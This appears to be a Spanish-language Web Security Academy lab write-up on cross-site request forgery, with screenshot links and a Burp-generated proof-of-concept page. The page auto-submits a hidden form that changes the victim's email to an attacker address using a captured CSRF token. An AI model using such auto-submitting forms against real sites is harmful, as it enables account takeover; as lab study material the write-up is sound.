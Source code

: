 > Con el burp collaborator podemos recibir el token csrf obtenido en el campo oculto de la víctima.

![](/img2/Pasted%20image%2020250729160644.png)

![](/img2/Pasted%20image%2020250729160733.png)

- Injection

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a70008803dc8be481317f6900c8009f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Wf8AVh0EmxklTPuHIwGbuwXTyaX2EDsY" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
```